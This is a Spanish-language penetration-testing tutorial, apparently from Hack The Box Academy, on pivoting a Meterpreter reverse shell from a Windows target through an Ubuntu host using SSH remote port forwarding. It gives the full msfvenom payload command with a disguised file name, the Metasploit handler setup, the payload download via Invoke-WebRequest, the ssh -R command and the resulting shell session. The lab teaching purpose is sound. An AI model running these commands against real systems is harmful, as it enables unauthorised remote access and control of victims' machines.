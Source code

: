 Hemos visto el `local port forwarding`, donde SSH puede escuchar en nuestro host local y reenviar un servicio en el host remoto a nuestro puerto, y el `dynamic port forwarding`, donde podemos enviar paquetes a una red remota a través de un `pivot host`. Pero a veces, también podemos querer reenviar un servicio local al puerto remoto. Consideremos el escenario donde podemos hacer RDP en el host de Windows `Windows A`. Como se puede ver en la imagen a continuación, en nuestro caso anterior, podríamos hacer pivot en el host de Windows a través del servidor Ubuntu.

![](https://academy.hackthebox.com/storage/modules/158/33.png)

`¿Pero qué pasa si intentamos obtener una reverse shell?`

La `outgoing connection` para el host de Windows está limitada solo a la red `172.16.5.0/23`. Esto se debe a que el host de Windows no tiene ninguna conexión directa con la red en la que está el host de ataque. Si iniciamos un listener de Metasploit en nuestro host de ataque y tratamos de obtener una reverse shell, no podremos obtener una conexión directa aquí porque el servidor de Windows no sabe cómo enrutar el tráfico que sale de su red (172.16.5.0/23) para llegar a la 10.129.x.x (la red del Academy Lab).

Hay varias ocasiones durante un `penetration testing engagement` en las que solo tener una conexión de escritorio remoto no es factible. Es posible que quieras `upload`/`download` archivos (cuando el portapapeles de RDP está deshabilitado), `use exploits` o `low-level Windows API` usando una sesión de Meterpreter para realizar la enumeración en el host de Windows, lo cual no es posible usando los [Windows executables](https://lolbas-project.github.io/) incorporados.

En estos casos, tendríamos que encontrar un `pivot host`, que es un punto de conexión común entre nuestro host de ataque y el servidor de Windows. En nuestro caso, nuestro `pivot host` sería el servidor Ubuntu ya que puede conectarse tanto a `nuestro host de ataque` como al `Windows target`. Para obtener una `Meterpreter shell` en Windows, crearemos un payload Meterpreter HTTPS usando `msfvenom`, pero la configuración de la conexión inversa para el payload sería la dirección IP del host del servidor Ubuntu (`172.16.5.129`). Usaremos el puerto 8080 en el servidor Ubuntu para reenviar todos nuestros paquetes inversos al puerto 8000 de nuestro host de ataque, donde está corriendo nuestro listener de Metasploit.

### Creating a Windows Payload with msfvenom

```r
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 712 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

### Configuring & Starting the multi/handler

```r
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

Una vez que nuestro payload está creado y tenemos nuestro listener configurado y en ejecución, podemos copiar el payload al servidor Ubuntu usando el comando `scp` ya que ya tenemos las credenciales para conectarnos al servidor Ubuntu usando SSH.

### Transferring Payload to Pivot Host

```r
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/

backupscript.exe                                   100% 7168    65.4KB/s   00:00 
```

Después de copiar el payload, iniciaremos un `python3 HTTP server` usando el siguiente comando en el servidor Ubuntu en el mismo directorio donde copiamos nuestro payload.

### Starting Python3 Webserver on Pivot Host

```r
ubuntu@Webserver$ python3 -m http.server 8123
```

### Downloading Payload from Windows Target

Podemos descargar este `backupscript.exe` desde el host de Windows a través de un navegador web o el cmdlet de PowerShell `Invoke-WebRequest`.

```r
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

Una vez que hemos descargado nuestro payload en el host de Windows, utilizaremos `SSH remote port forwarding` para reenviar conexiones desde el puerto 8080 del servidor Ubuntu al servicio listener de msfconsole en el puerto 8000. Usaremos el argumento `-vN` en nuestro comando SSH para hacerlo verbose y pedirle que no solicite la shell de inicio de sesión. El comando `-R` le pide al servidor Ubuntu que escuche en `<targetIPaddress>:8080` y reenvíe todas las conexiones entrantes en el puerto `8080` a nuestro listener de msfconsole en `0.0.0.0:8000` de nuestro `host de ataque`.

### Using SSH -R

```r
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

Después de crear el SSH remote port forward, podemos ejecutar el payload desde el objetivo de Windows. Si el payload se ejecuta como se espera e intenta conectarse de nuevo a nuestro listener, podemos ver los logs del pivot en el `pivot host`.

### Viewing the Logs from the Pivot

```r
debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61355
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=5
debug1: channel 1: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: free: 172.16.5.19, nchannels 2
debug1: channel 1: connected to 0.0.0.0 port 8000
debug1: channel 1: free: 172.16.5.19, nchannels 1
debug1: client_input_channel_open: ctype forwarded-tcpip rchan 2 win 2097152 max 32768
debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61356
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=4
debug1: channel 0: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: connected to 0.0.0.0 port 8000
```

Si todo está configurado correctamente, recibiremos una `Meterpreter shell` pivotada a través del servidor Ubuntu.

### Meterpreter Session Established

```r
[*] Started HTTPS reverse handler on https://0.0.0.0:8000
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1 ) at 2022-03-02 10:48:10 -0500

meterpreter > shell
Process 3236 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```

Nuestra sesión de Meterpreter debería mostrar que nuestra conexión entrante es desde un host local (`127.0.0.1`) ya que estamos recibiendo la conexión a través del `local SSH socket`, que creó una `outbound connection` al servidor Ubuntu. Emitir el comando `netstat` puede mostrarnos que la conexión entrante es desde el servicio SSH.

La representación gráfica a continuación proporciona una forma alternativa de entender esta técnica.

![](https://academy.hackthebox.com/storage/modules/158/44.png)

Además de responder las preguntas del desafío, practica esta técnica e intenta obtener una reverse shell desde el objetivo de Windows.